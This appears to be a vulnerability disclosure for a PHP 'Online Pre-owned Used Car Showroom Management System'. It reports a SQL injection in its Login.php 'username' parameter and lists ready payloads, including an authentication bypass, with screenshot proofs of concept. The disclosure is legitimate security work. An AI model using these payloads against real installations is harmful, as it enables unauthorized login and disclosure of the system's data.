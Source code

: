 * VULNERABLE: SQL injection vulnerability exists in Online Pre-owned Used Car Showroom Management System. An attacker can inject query in
“/classes/Login.php" via the "username" parameters.
* Product: Online Pre-owned Used Car Showroom Management System.
* Software: https://www.sourcecodester.com/php/15067/online-pre-ownedused-car-showroom-management-system-php-free-source-code.html
* Impact: Allow attacker inject query and access , disclosure of all data on the system.
* Payload : `username=admin' and 1=1#` `username=admin' and 1=2#` `username=test' or 1=1#`
* Proof of concept (POC):

![图片](https://user-images.githubusercontent.com/57030243/160413889-fa15fe59-26b9-4abf-bec9-9b3b15027d12.png)
* You can see injection code query into username parameters as show below

![图片](https://user-images.githubusercontent.com/57030243/160414005-c6367ed4-b196-49b4-a9a1-37de92f46d39.png)
![图片](https://user-images.githubusercontent.com/57030243/160416166-fa58058e-e7de-4b82-bbb9-a7aad08f41e4.png)
* You can log in at will through injection(username=test' or 1=1#)

![图片](https://user-images.githubusercontent.com/57030243/160414213-af45c88e-5cee-420f-b910-f5a98165dce0.png)
